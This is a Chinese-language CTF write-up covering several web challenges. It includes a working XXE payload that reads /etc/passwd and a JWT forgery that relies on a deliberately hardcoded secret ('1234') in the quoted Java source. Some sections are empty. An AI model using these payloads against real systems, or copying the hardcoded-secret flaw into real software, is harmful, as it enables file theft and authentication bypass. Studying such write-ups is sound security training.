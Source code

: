# WEB

## findme

302 跳转

### MatchTheRegex

F12 查看注释

### SOAP

点击detail post了xml文件

![image-20230316190919361](C:\Users\20925\AppData\Roaming\Typora\typora-user-images\image-20230316190919361.png)

由题目也知道是xxe

* payload

```xml
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE data [
<!ELEMENT ID ANY>
<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<data>
<ID>&xxe;</ID>
</data>
```

将外部实体名称换成发送出去的就可以了



### More SQLi

byd这道题怎么这么卡，难道被延迟注入了

### Java Code Analysis!?!
一个在线阅读网站,而flag.pdf需要鉴权
提示是jwt伪造 ,全局搜索可以看到jwt这个类
```java
    public JwtService(SecretGenerator secretGenerator){
        this.SECRET_KEY = secretGenerator.getServerSecret();
    }
```

跟进getServerSecret函数
```java
//读取一个文件,如果不存在就随机生成32位数并写入文件
//    private static final String SERVER_SECRET_FILENAME = "server_secret.txt";
    String getServerSecret() {
        try {
            String secret = new String(FileOperation.readFile(userDataPaths.getCurrentJarPath(), SERVER_SECRET_FILENAME), Charset.defaultCharset());
            logger.info("Server secret successfully read from the filesystem. Using the same for this runtime.");
            return secret;
        }catch (IOException e){
            logger.info(SERVER_SECRET_FILENAME+" file doesn't exists or something went wrong in reading that file. Generating a new secret for the server.");
            String newSecret = generateRandomString(32);
            try {
                FileOperation.writeFile(userDataPaths.getCurrentJarPath(), SERVER_SECRET_FILENAME, newSecret.getBytes());
            } catch (IOException ex) {
                ex.printStackTrace();
            }
            logger.info("Newly generated secret is now written to the filesystem for persistence.");
            return newSecret;
        }
    }
```

```java
    private String generateRandomString(int len) {
        // not so random
        return "1234";
    }
```

所以jwt的密钥为1234,伪造
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20230509091252.png)

这里注意多次修改userID来尝试,,,

### msfroggenerator2


### cancri-sp
一个G的附件?run了